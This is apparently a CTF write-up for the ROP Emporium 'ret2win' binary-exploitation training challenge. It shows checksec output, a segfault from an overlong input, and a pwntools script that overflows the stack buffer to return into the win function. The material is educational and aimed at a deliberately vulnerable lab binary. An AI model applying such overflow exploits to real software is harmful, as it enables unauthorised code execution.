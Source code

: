 ```yaml
---
title: ROP Emporium
slug: ROP Emporium
tags: [Binary Exploitation, ROP Emporium]
---
```


![ROP Emporium](https://www.reddit.com/media?url=https%3A%2F%2Fi.redd.it%2F03pzqsvvjosd1.gif)
> I will be using `x86_64` which means 64-bit (`x86`) means 32-bit.
## Ret2Win

```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/ret2win]
└─$ checksec --file=ret2win
[*] '/mnt/c/Users/At0m/Temp/rop/rop_emporium_all_challenges/ret2win/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/ret2win]
└─$ ./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault  ./ret2win
```

```python
from pwn import *

exp = process("./ret2win")
ret2win = p64(0x400756) # `Ret2Win` Address
padding = cyclic(40) # Offset
ret = p64(0x40053e) # Stack Alignment
payload = padding + ret + ret2win # Full payload
exp.sendline(payload)
print(exp.recvall().decode())
```
## Split
